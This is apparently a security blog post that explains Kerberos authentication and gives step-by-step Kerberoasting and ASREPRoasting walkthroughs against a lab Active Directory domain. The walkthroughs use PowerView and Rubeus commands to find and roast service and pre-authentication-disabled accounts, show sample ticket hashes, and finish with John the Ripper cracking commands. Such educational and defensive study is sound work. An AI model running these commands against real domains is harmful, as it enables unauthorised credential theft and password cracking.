```yaml
---
cover: https://i.postimg.cc/NjfMXj1G/Designer-1.jpg
title: "A Deep Dive into Kerberos: Understanding Kerberoasting and ASREPRoasting Attacks."
date: 8/23/2024 6:50:40 +06:00
categories: research
tags: [Kerberos, Kerberoasting, Asreproasting]
toc: true
toc_number: false
---
```

# Overview

Welcome to my three-part blog series! In this first part, I'll dive deep into how Kerberos works and take a closer look at Kerberoasting and ASREPRoasting attacks. In the next part, we'll explore Kerberos delegation, some of the architectural and design issues in Kerberos, and how attackers can exploit these weaknesses. The final part will be about Shadow Credentials.

Kerberos is one of the main authentication protocols in Active Directory, along with NTLM and LDAP. It's considered secure because it uses tickets to authenticate clients and servers, avoiding the need to store passwords locally. Plus, it involves a trusted third party, the Key Distribution Center (KDC), which also acts as the domain controller and uses built-in symmetric cryptography. However, as with any security system, Kerberos isn't perfect and has its vulnerabilities. We will be using (Rubeus)[https://github.com/GhostPack/Rubeus] throughout this blog which is one of the most sought after tool when it comes to attacking Kerberos.

# Kerberos Working

![Kerberos Working](https://i.postimg.cc/YqdDpdRn/Untitled-Diagram-drawio.png)

There are generally three things involved in kerberos authentication
- Client
- Service 
- KDC (Authentication Server, Ticket granting Server)

Supose a user wants to access a service in a office which uses Active Directory network like HTTP service for accessing web applications, CIFS service for accessing file shares, LDAP Service, Database Services like MYSQL and Postgresql for database administration or searching stuffs, SMTP service for sending emails, IMAP or POP3 service and many more. How does he/she access them? Inside KDC which is the Domain Controller there are two servers one is the Authentication Server which confirms that a known user is making an access request and issues a valid TGT and another is Ticket Granting Server which confirms that the user is making access request to a known service aka which exists in the domain and issues a ST service Ticket.

- **AS-REQ(Authentication Server Request):** The user requests TGT from the authentication server by sending an encrypted timestamp which is encrypted using the user's password.
- **AS-REP(Authentication Server Response):** The authentication server verifies the client and sends back TGT, this TGT is encrypted using password hash of krbtgt account. 
- **TGS-REQ(Ticket Granting Server Request):** Suppose the client wants to access MSSQL-2 service on dev.dhitalcorp.local domain, now the client sends the TGT along with SPN(service principal name) `alex\MSSQL-2$@dev.dhitalcorp.local` to the ticket granting server to request for a service ticket.
- **TGS-REP(Ticket Granting Server Response):** The Ticket granting server verifies the TGT and provides them ST(Service Ticket) for the requested service. This service ticket is encrypted using the ntlm hash of the service. The TGS doesnot verify if the client has access to the service or not it directly provides them service ticket after verifying their TGT, since the service ticket is encrypted using NTLM hash of the service kerberoasting attack comes into play in here.
- **AP-REQ(Authentication Protocal Request):** The client sends the service ticket to the service 
- **AP-RES(Authentication Protocal Response):** The service verifies if the client has access and grants access.
# Kerberoasting

Most services run on a machine under the context of a user account. Above in the TGS-REP step, the Ticket Granting Server (TGS) sends the client a Service Ticket for the service they requested, based on the SPN they provided. Part of this Service Ticket is encrypted with the password of the user account running that service. The TGS doesn’t check if the client actually has access to that service or not. This means that as a regular domain user, we can request service tickets for any service and then crack them offline to uncover the plaintext password of the user account running that service. 

As a regular domain user first list all kerberoastable accounts(service accounts running in the context of user accounts). We can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```powershell
PS C:\Users\Alex> Get-DomainUser -SPN

distinguishedName : CN=SQLService,OU=Service Accounts,DC=dev,DC=dhitalcorp,DC=local
enabled           : True
name              : mssql_svc
objectClass       : user
objectGUID        : 12345678-90ab-cdef-1234-567890abcdef
passwordExpired   : False
pwdLastSet        : 7/23/2024 12:34:56 PM
samAccountName    : mssql_svc
servicePrincipalName : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
userPrincipalName : SQLService@dev.dhitalcorp.local
```
We can request service ticket for this `mssql_svc` service account and crack it offline.
- We can also use PowerView to request service ticket for this `mssql_svc` service account:  `Get-DomainUser -SPN mssql_svc | Get-DomainSPNTicket`
- We can also use [Invoke-Kerberoast](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/) to both find and roast kerberoastable accounts.
-  If you want the hash in specific format for cracking we can also request it using OutputFormat as `Get-DomaintUser -SPN mssql_svc | Get-DomainSPNTicket -OutputFormat hashcat`.

Below we are using Rubeus. 

```powershell
PS C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

[*] Action: Kerberoasting

[*] Target User  : mssql_svc
[*] Target Realm : DEV.DHITALCORP.LOCAL

[*] Searching for service tickets...

[*] ServicePrincipalName              : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
[*] UserName                          : mssql_svc
[*] UserDomain                        : DEV.DHITALCORP.LOCAL
[*] ServiceTicket (base64)            : <ticket data>

[*] RC4_HMAC(NT) hash for mssql_svc@DEV.DHITALCORP.LOCAL:
$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL$MSSQLSvc/sql-1.dev.dhitalcorp.local:1433*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB
```
Remove the service principal name from the hash to crack using John. The hash should be in format `$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB`. Save the hash as `mssql_svc.txt`. We can crack this using John as follows.

```bash
┌──(alex㉿kali)-[~]
└─$ john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou2024.txt mssql_svc.txt
```
# ASREPRoasting

![Asrep](https://i.postimg.cc/XvbQQcyV/asrep.png)

When the user first requests for TGT with the authentication server they need to send their username along with an encrypted timestamp. Asreproastable accounts are the accounts which has "Do not require Kerberos preauthentication" option set meaning the user does not have to send an encrypted timestamp. Simply if a user has kerberos pre-authentication disabled we can just send our username during AS-REQ(Authentication Server Request) to request for TGT and during AS-REP(Authentication Server Response) a part of this reply can be cracked offline to recover the user's password. We can find asreproastable accounts by using Rubeus, PowerView, ADSearch.exe or many other tools.

```powershell
PS C:\Users\Alex> Get-DomainUser -PreauthNotRequired -Verbose

distinguishedName : CN=adhital,OU=Users,DC=dev,DC=dhitalcorp,DC=local
enabled           : True
name              : adhital
objectClass       : user
objectGUID        : 98765432-10ab-cdef-4321-1234567890ab
passwordExpired   : False
pwdLastSet        : 7/23/2024 12:34:56 PM
samAccountName    : adhital
userPrincipalName : adhital@dev.dhitalcorp.local


```

Using Rubeus we can proceed to roast it by doing.

```powershell
PS C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:adhital /nowrap

[*] SamAccountName         : adhital
[*] DistinguishedName      : CN=IT Users,CN=Users,DC=dev,DC=dhitalcorp,DC=local
[*] Using domain controller: dc-1.dev.dhitalcorp.local (10.10.99.10)
[*] Building AS-REQ (w/o preauth) for: 'dev.dhitalcorp.local\adhital'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$adhital@dev.dhitalcorp.local:47AC2248725F4E6CE2295C380CXXXXXX$51A78E6C55B42D9EXXXXX.......
```
Save the hash as `asrep.txt` and crack using john.

```bash
┌──(alex㉿kali)-[~]
└─$ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou2024.txt asrep.txt
```
